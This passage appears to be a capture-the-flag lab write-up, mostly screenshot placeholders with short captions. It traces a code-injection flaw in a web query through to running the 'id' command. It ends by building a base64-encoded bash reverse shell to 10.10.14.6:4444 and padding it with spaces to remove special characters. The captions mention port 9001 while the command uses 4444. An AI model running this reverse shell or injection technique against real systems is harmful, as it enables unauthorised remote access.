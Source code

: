 ![[Pasted image 20250418211514.png]]

Query gone
![[Pasted image 20250418211559.png]]

Re-running query but url encoding '+' to %2b

![[Pasted image 20250418211655.png]]

We got our query back and the string concatenation worked

![[Pasted image 20250418211759.png]]

We found code execution.

Try 'print' as well

![[Pasted image 20250418211855.png]]

Just prints out 'ya' 

![[Pasted image 20250418211957.png]]

At this point, try to import os and run commands

![[Pasted image 20250418212057.png]]

This worked

![[Pasted image 20250418212210.png]]
- Successfully executed 'id' command

Let's do a reverse shell. 

```
echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'" |base64
```

We want to get rid of this special character 

![[Pasted image 20250418212624.png]]

Just add an additional space between -i and >&

![[Pasted image 20250418212732.png]]
- Now there's another one..?
- Add another space between 9001 and 0>

![[Pasted image 20250418212845.png]]
- now add two more spaces after the 1' and before the "|base64 to get rid of the ==

![[Pasted image 20250418213010.png]]

Now we have a standard string. 
